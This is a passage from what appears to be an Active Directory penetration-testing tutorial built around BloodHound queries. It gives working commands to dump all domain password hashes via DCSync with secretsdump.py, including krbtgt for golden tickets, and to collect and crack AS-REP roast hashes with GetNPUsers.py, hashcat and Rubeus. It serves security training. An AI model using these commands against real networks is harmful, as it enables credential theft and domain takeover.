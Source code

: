 
#### Query 4: Find Principals with DCSync Rights

**Steps:**
1. Click: "Dangerous Permissions" → "Find Principals with DCSync Rights"
2. Shows users/groups that can perform DCSync attack

**What is DCSync:**
- Ability to request password hashes from Domain Controller
- Simulates domain controller replication
- No need to log onto DC or dump memory

**If You Have DCSync Rights:**
```bash
# From Kali with compromised account that has DCSync:
secretsdump.py 'corp/compromised-user:password@192.168.1.10' -just-dc
# Dumps ALL domain password hashes, including krbtgt

# Specifically dump krbtgt for golden ticket:
secretsdump.py 'corp/compromised-user:password@192.168.1.10' -just-dc-user krbtgt
```

---

#### Query 5: Find AS-REP Roastable Users

**Steps:**
1. Click: "Kerberos Attacks" → "Find AS-REP Roastable Users (DontReqPreAuth)"
2. Shows users with "Do not require Kerberos preauthentication" enabled

**What is AS-REP Roasting:**
- Users with this setting don't need pre-authentication
- Can request authentication data WITHOUT valid credentials
- Response contains encrypted data (crackable offline)

**Exploitation:**
```bash
# From Kali:
GetNPUsers.py corp.local/ -dc-ip 192.168.1.10 -usersfile users.txt -format hashcat -outputfile hashes.txt

# Crack with hashcat:
hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# Or use Rubeus from Windows:
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
```

---

### Step 15: Writing Custom Cypher Queries

**Cypher = Neo4j's query language (similar to SQL)**

#### Accessing Raw Query Interface:
